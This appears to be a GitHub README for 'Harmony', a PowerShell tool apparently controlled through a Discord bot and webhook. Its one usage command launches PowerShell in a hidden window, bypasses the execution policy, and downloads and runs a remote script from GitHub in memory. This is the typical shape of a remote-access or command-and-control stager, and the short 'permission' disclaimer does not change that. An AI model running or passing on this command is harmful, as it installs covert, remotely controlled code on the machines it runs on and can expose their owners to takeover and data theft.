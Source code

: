 # Harmony PowerShell Script

This PowerShell script enables you to run a script directly from memory on a remote computer you own or have permission to use. It allows for greater efficiency and auto-updates whenever the script is updated.

### **Usage Instructions:**

To execute the script, run the following command on the remote computer, making sure to replace the placeholders with your own Discord Bot Token, Server ID, and Webhook URL:

```powershell
powershell -W Hidden -EP Bypass -C "$TOKEN='<YOUR_BOT_TOKEN>';$serverID='<YOUR_SERVER_ID>';$whURL='<YOUR_WEBHOOK_URL>';IEX(IWR'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1'-UseBasicParsing);exit"
```
